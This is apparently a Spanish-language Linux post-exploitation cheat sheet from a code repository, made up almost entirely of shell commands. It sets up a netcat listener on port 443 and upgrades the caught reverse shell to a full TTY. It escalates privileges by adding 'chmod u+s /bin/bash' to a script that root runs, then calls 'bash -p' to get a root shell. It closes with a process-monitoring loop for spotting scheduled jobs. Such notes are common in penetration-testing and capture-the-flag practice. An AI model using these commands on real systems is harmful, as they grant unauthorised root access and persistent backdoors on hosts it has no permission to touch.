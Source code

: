   
----  
  
# Post-Explotación  (Linux)

## Arreglar tty
```shell
#PANTALLA 2
nc -nlvp 443
script /dev/null -c bash
Control+Z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184

# OPCION 2 "Si tiene python"
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

### Modificar script sh para elevar
```shell
#Con el usuario actual
ls -l /bin/bash

# (OP.1 - SH) añadimos al script con nano, o también podemos hacerlo con echo, si tuvieramos problemas con la tty 
chmod u+s /bin/bash

# (OP.1 - PYTHON) 
import os 
os.system("chmod u+s /bin/bash")

# Monitorizamos con 
watch -n 1 ls -l /bin/bash

# Nos cambiamos de bash y deberiamos haber elevado 
bash -p
whoami #Debe ser root
```
## Monitorización de tareas
```shell
# Ver procesos y servicios corriendo
ss -tl
ps -aux
```

#### Creación script: procmom.sh
```shell
#/bin/bash
old_process=$(ps -eo user,command)

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmom|command|kworker"
	old_process=$new_process
done
```
